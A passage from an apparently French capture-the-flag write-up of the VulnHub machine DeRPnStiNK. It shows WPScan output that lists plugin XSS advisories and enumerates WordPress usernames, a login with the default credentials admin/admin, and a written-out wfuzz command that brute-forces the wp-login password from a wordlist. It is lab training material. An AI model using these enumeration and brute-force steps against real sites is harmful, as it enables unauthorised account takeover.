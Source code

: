 ```console
Reference: <https://sumofpwn.nl/advisory/2016/cross_site_scripting_vulnerability_in_tribulant_slideshow_galleries_wordpress_plugin.html>
Reference: <https://plugins.trac.wordpress.org/changeset/1609730/slideshow-gallery>
[i] Fixed in: 1.6.5

[!] Title: Slideshow Gallery <= 1.6.5 - Multiple Authenticated Cross-Site Scripting (XSS)
Reference: <https://wpvulndb.com/vulnerabilities/8795>
Reference: <http://www.defensecode.com/advisories/DC-2017-01-014_WordPress_Tribulant_Slideshow_Gallery_Plugin_Advisory.pdf>
Reference: <https://packetstormsecurity.com/files/142079/DC-2017-01-014.pdf>
[i] Fixed in: 1.6.6

[+] Enumerating installed themes (only ones with known vulnerabilities) ...

   Time: 00:00:00 <==============================================================================================> (285 / 285) 100.00% Time: 00:00:00

[+] No themes found

[+] Enumerating timthumb files ...

   Time: 00:00:05 <============================================================================================> (2541 / 2541) 100.00% Time: 00:00:05

[+] No timthumb files found

[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
+----+-------------+---------------------------------+
| Id | Login       | Name                            |
+----+-------------+---------------------------------+
| 1  | unclestinky | 404 Not                         |
| 2  | admin       | admin – DeRPnStiNK Professional |
+----+-------------+---------------------------------+

[+] Finished: Sat Apr  7 15:42:39 2018
[+] Requests Done: 4857
[+] Memory used: 104.758 MB
[+] Elapsed time: 00:00:24
```

####Il y a forcement un wp-admin !!! bingo :
<http://derpnstink.local/weblog/wp-admin> avec une jolie page d'auth sans captcha bien sur !!! Et san slimite de tentative de connexions.
On test le login password par défaut ça serait top : et bien oui !!! ça marche"" admin/admin

####Pas besoin de fuzz avec wfuzz :
```console
root@DebSec:~/Documents/Challenge/VulnHub/DeRPnStiNK# wfuzz -c -z file,/usr/share/wordlists/rockyou.txt --sc 302 -d "log=admin&pwd=FUZZ" <http://derpnstink.local/weblog/wp-login.php>
```
